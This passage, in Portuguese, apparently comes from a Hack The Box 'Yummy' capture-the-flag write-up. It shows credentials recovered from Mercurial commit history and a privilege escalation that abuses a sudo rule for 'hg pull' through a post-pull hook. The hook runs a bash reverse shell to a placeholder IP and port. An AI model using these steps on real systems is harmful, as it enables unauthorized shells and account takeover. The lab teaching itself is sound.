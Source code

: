 
#### Usuário qa

Assim que consegui acesso como usuário www-data, identifiquei que o usuário tem acesso ao diretório em que está hospedado o código-fonte da aplicação. Nesse diretório, é possível visualizar um subdiretório `.hg`, o que indica que o [Mercurial](https://www.mercurial-scm.org/) está sendo utilizado para controle de versionamento. Assim como o git, o Mercurial também permite visualizar o histórico de commits por meio do comando `hg tip -p`, e ao executar esse comando eu obtive acesso às credenciais do usuário `qa`:

<figure><img src="../../../.gitbook/assets/ctfhtbyummyqa-credentials.png" alt=""><figcaption><p>HTB Yummy - Credenciais do usuário qa</p></figcaption></figure>

#### Usuário dev

Com acesso SSH à máquina por meio do usuário `qa`, é possível observar no diretório home do usuário um arquivo de configuração do Mercurial com o nome de `.hgrc`. Por meio desse arquivo, é possível configurar um hook, isto é, uma ou mais instruções que executam a partir de um gatilho. Além disso, ao executar o comando `sudo -l`, a seguinte entrada é retornada:

```bash
Matching Defaults entries for qa on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User qa may run the following commands on localhost:
    (dev : dev) /usr/bin/hg pull /home/dev/app-production/
```

Indicando que o usuário `qa` pode executar o comando listado como usuário `dev`. Com essas informações, é possível elaborar um ataque para escalar privilégios para o usuário `dev`. Primeiro, é necessário copiar o arquivo `.hgrc` para um subdiretório `.hg` a qual o usuário `qa` tenha permissão de escrita; depois, criar um script BASH com um payload de shell reversa, e então fazer com que esse arquivo seja executado com um hook de post-pull pelo Mercurial:

```bash
mkdir -p /tmp/privesc/.hg
chmod 777 /tmp/privesc/.hg
cp ~/.hgrc /tmp/privesc/.hg/hgrc
# Alterar {IP} pelo endereço da máquina e {PORTA} pela porta do listener
echo -e '#!/bin/bash\n/bin/bash -i >& /dev/tcp/{IP}/{PORTA} 0>&1' | tee /tmp/reverse-shell.sh
chmod +x /tmp/reverse-shell.sh
echo -e "[hooks]\npost-pull = /tmp/reverse-shell.sh" | tee -a /tmp/privesc/.hg/hgrc
cd /tmp/privesc
sudo -u dev /usr/bin/hg pull /home/dev/app-production/
```

